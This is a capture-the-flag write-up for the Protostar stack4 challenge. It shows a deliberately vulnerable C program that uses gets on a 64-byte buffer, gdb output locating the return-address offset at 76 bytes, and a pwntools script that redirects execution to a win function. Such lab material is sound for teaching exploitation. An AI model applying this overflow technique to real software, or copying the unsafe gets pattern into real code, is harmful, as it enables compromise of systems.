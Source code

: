 The application is a super simple buffer overflow. The c code is only a few lines. The objective is to change the return address to the win function. 

### C Code

```language-c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
void win(){
  printf("code flow successfully changed\n");
}
int main(int argc, char **argv){
  char buffer[64];
  gets(buffer);
}
```

## Finding Buffer Size Dynamically 

You can use `pattern_create 100 file & r < file` in gdb and you should get a seg fault. 
```language-gdb
Stopped reason: SIGSEGV
0x41344141 in ?? ()
    gdb-peda$ pattern search
    Registers contain pattern buffer:
    EIP+0 found at offset: 76
```
So the buffer size can be found out frmo this info from the line **EIP+0 found at offset: 76** where 76 is the size of the buffer. So fill the buffer and then add the return address at the end

## Exploit Code

```language-python
from pwn import *
import time
#===============    Configuration    ================"
#Allow ptrace for gdb
# sudo sysctl -w kernel.yama.ptrace_scope=0
pwnName ="stack4"
local   = True
libName = ''
host, port  = '', 0000
context.arch    ='i386'
context.os  = "linux"
context.log_level="DEBUG"
context.terminal= [ 'tmux' , 'splitw' , '-h' ]
#===================================================="
try:
	libc    = ELF(libName)
except:
	pass
try:
	elf     = ELF(pwnName)
	context.binary  = elf
except:
	pass
try:
	rop     = ROP([elf, libc])
except:
	pass
if local:
	r = process("./" + pwnName)
	gdb.attach(r, execute="c")
	time.sleep(0.5)
else:
	r = remote(host, port)
def sendToGDB(payload, breakpoint=None):
	if not local:
		return
	cmd = """ b main\n"""
	with open('payload', 'w+') as f:
		f.write(payload)
	gdb.attach(r, execute="c")
#====================================================="
#						Exploit
#======================================================
def makePayload():
	buffSize = 76
	filler = 'a'*buffSize
	returnAddress = p32(0x80483F4) # location of win functon
	payload = filler + returnAddress
	return payload
def sendPayload(payload):
	r.sendline(payload)
	print r.recvline()
if __name__=="__main__":
	payload = makePayload()
	sendPayload(payload)
```

## Running The Exploit
![Tmux is cool][exploit]


## Other Notes
	I wanted to get better at **VIM MASTERRACE** and wanted to create a template exploit python file for all similar exploits. I wanted to press f9, run the python file, and open up a gdb split window in the same terminal. Pwn tools lets you start up a local process and send input to it across a socket. You can also attach gdb to it so you can see if the return address was overwritten,  run pattern stuff as necessary, etc... It took me a while to set it up and get the settings right. See exploit picture to get a feel of what I mean


[exploit]:  https://raw.githubusercontent.com/mpaxson/ctf/master/protostar/stack/stack4/exploit.png
